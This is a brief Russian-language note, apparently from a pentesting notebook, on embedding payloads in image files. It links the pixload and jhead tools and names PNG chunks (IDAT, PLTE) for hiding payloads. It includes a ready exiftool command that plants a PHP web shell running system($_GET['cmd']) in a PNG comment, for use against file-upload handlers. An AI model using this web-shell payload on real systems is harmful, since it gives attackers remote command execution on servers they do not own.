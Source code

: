 # To Image

Payload to images\
[https://github.com/chinarulezzz/pixload](https://github.com/chinarulezzz/pixload)

Еще очень крутая программа: exiftool\
Пример

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' test.png
```

jhead - инъекция в jpeg [https://www.sentex.ca/\~mwandel/jhead/](https://www.sentex.ca/\~mwandel/jhead/)

Есть два боевых способа запихивания payload в png: в IDAT и PLTE



